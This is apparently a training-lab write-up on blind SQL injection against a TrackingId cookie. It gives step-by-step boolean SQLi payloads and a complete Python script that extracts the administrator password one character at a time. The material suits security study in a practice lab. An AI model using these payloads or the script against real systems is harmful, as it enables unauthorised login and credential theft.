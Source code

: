 # 🧠 Lab Title: Blind SQL Injection with Conditional Responses

## 🔍 Category  
SQL Injection (SQLi)

## 🎯 Objective  
Log in as the administrator user.

## 🧰 Tools Used  
- Burpsuite

## 🚀 Exploitation Steps

### Observe the Description  
This lab is a bit tricky because it doesn’t return any errors, only a "Welcome back!" message. We know that the vulnerability lies in the `trackingid` cookie. We also know there is a column called `username`, a table called `users`, a username called `administrator`, and another column called `password`.

### Access the Lab  
> Click on **ACCESS THE LAB**.

### START HACKING!!!  
1) Let’s confirm the vulnerability with the following SQL injection (remember to delete the content of the tracking id; this will evaluate to false, so we inject with a true value):

```sql
' OR 1=1 --;
```

It worked!

2) Now, let’s first retrieve the content of the users table. Before that, let’s confirm that there is a table called `users`:

```sql
' OR (SELECT 'A' FROM users LIMIT 1)='A' --
```

Let's explain the payload:  
- **Why the brackets?** Because we want it to return true if there is a `users` table. We use `'A' = (SELECT 'A' FROM users LIMIT 1)` to check if the `users` table exists and has at least one row. If it does, it returns `'A' = 'A'`, which evaluates to true.  
- **What is LIMIT?** LIMIT is a clause used to control how many rows a query returns. Here, we use it to limit the results to 1 because we don’t know how many rows are in the table.

3) After verifying that there is a `users` table, let’s check if there is a username called `administrator`:

```sql
' OR (SELECT 'A' FROM users WHERE username='administrator' LIMIT 1) = 'A' --;
```

4) Great! Now we are getting somewhere. Let’s find out the length of the password:

```sql
' OR (SELECT 'A' FROM users WHERE username='administrator' AND LENGTH(password)=20) = 'A' -- ; 
```

We are basically saying: "Select letter A from users where the username is administrator and the length of the password is 20, and return 'A' if true."

5) Whew… It’s been a lot of work. Now let’s extract the password, but first, we should explain `SUBSTRING`.

**What is SUBSTRING?**  
- It's a function that lets you extract part of a string.

**Syntax:**

```sql
SUBSTRING(string, start_position, length)
```

| Part             | Meaning                          |
| ---------------- | --------------------------------|
| `string`         | The text you want to extract from|
| `start_position` | Where to start (1-based index)   |
| `length`         | How many characters to take      |

Our payload will look like this:

```sql
' OR (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a' --;
```

Explanation:  
We select one character at a time from the password using `SUBSTRING(password, pos, 1)` and compare it with a guess (`'a'`). If it's true, the page returns "Welcome back," telling us our guess is correct.

We will need to try all possible characters in the password. We have two options:  
- 1) Use Burp Suite Intruder.  
- 2) Script it in Python.

I chose the second option. Let’s start:

```python
import requests
import string

# === CONFIGURATION ===
TARGET_URL = ""  # Replace with your lab URL

# === Character set to use when guessing the password ===
CHARSET = string.ascii_lowercase + string.digits

# === Cookie name ===
INJECTION_COOKIE = "TrackingId"

# === Function to test each character ===
def test_character(position, character):
    # Create SQL injection payload
    payload = f"' OR (SELECT SUBSTRING(password,{position},1) FROM users WHERE username='administrator')='{character}'--"
    
    # Set cookies
    cookies = {
        INJECTION_COOKIE: payload,
    }
    
    # Send the request
    response = requests.get(TARGET_URL, cookies=cookies)
    
    # If "Welcome back" is in the response, we found the right character
    return "Welcome back" in response.text

# === Main function to extract the password ===
def extract_password():
    print("[*] Starting blind SQLi password extraction...")
    password = ""

    for position in range(1, 21):  # Try up to 20 characters
        for char in CHARSET:
            print(f"[*] Trying position {position} with '{char}'...", end="\r")
            if test_character(position, char):
                password += char
                print(f"[+] Found character {position}: '{char}' => {password}")
                break
        else:
            print(f"[!] No valid character found at position {position}. Assuming end of password.")
            break

    print(f"\n[✓] Final extracted password for administrator: {password}")

# === Run the script ===
if __name__ == "__main__":
    extract_password()
```

And boom! You got the password.

## 🧵 Reflection  
- How do you perform a blind SQL injection?  
- How do you build a Python exploit script?

